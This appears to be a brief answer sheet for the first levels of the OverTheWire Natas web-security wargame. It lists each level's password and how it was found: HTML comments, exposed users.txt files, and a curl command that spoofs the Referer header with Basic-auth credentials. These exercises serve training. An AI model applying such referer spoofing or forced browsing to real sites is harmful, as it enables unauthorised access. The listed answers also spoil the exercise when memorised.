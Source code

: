 ### Solutions


natas1 : gtVrDuiDfck831PqWsLEZy5gyDz1clto - Commentaire

natas2 : ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi - Commentaire

natas3 : sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 - http://natas2.natas.labs.overthewire.org/files/users.txt

natas4 : Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

natas5 : iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq - curl http://natas4.natas.labs.overthewire.org/index.php --referer http://natas5.natas.labs.overthewire.org/ -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
